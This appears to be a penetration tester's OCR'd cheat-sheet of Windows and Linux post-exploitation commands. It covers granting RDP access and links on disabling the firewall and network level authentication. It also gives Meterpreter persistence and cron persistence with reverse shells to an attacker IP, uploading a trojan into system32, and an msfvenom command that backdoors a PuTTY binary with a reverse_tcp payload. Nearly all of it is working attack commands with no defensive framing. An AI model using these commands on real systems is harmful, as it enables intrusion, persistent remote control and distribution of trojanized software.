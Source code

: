 NET LOCALGROUP "Remote Desktop Users" domain\jscott /ADD This would add the domain 

user domian\jscott to the local group Remote Desktop Users. If you'd like to add a non-domain user, simply leave off the domain 

prefix:mak

#### new remote deskop firewall disable commands

https://support.microsoft.com/en-us/help/947709/how-to-use-the-netsh-advfirewall-firewall-context-instead-of-the-netsh-firewall-context-to-control-windows-firewall-behavior-in-windows-server-2008-and-in-windows-vista

diable network level authentication with powershell ** watch out for """ ticks in scripts here

https://www.petri.com/disable-remote-desktop-network-level-authentication-using-powershell


#### Metepreter to cmd on windows

execute -f cmd.exe -i -H

#### Persistance for windows

run persistence -U -i 5 -p 443 -r 10.11.0.202

run persistence -U -i 5 -p 666 -r 10.11.0.202

set  LPORT 443

exploit

persistance for linux

use exploit/linux/local/cron_persistence

set session 1

set payload cmd/unix/reverse_perl

set LHOST 10.11.0.202

set LPORT 444

run


#### download

meterpreter >  download c:\\boot.ini

#### upload

meterpreter > upload evil_trojan.exe c:\\windows\\system32

#### backdoor a file:

wget http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe
msfvenom -a x86 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=192.168.1.101 -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe -o puttyX.exe

